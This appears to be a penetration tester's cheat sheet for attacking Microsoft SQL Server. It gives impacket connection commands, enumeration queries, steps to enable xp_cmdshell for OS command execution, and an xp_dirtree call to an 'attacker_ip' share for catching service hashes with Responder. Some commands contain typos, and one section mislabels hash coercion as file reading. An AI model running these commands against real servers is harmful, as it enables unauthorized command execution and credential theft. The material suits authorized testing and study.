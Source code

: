 
## Good places and tools

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) - ultimate cheatsheet

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is A PowerShell Toolkit for Attacking SQL Server
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet) has its own handy cheatsheet.


## Warning

Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts

[[Impacket-Cheatsheet]]; if you have credentials:
```bash
# Connect to a Microsoft SQL server
impacket-mssqlclient -port $PORT $domain/$sql_svc 
# As a user with Windows Authenciation
impacket-mssqlclient $user:$hostname@$IP -windows-auth
# Specify a database instance
-db $database_instance
# If to are targeting a DC 
-dc-ip 
# Do prompt for password
-no-pass
```

```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases

SELECT name, database_id, create_date FROM sys.databases;

USE <databasenamegoeshere>;
SELECT * FROM information_schema.tables;
SELECT * FROM users;

-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

Show all the tables in a database
```sql
SELECT table_name, table_schema, table_type
    FROM information_schema.tables
    WHERE table_catalog = 'TestDB'
    ORDER BY table_name ASC;
```

Show all tables across all databases
```sql
SELECT *
    FROM information_schema.tables
    ORDER BY table_name ASC;
```


## Command Execution

Check if cmdshell is already active
```sql   
EXEC xp_cmdshell ‘net user’; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure ‘xp_cmdshell’, 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
-- OR on later versions EXECUTE not EXEC:
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## Hash Passback

Use [[Responder-Cheatsheet]] to catch the service hash of user 
```bash
sudo responder -I $interface
xp_dirtree "\\attacker_ip\Share"
```

## References

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
[therootcompany](https://therootcompany.com/blog/mssql-cheat-sheet/)
[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
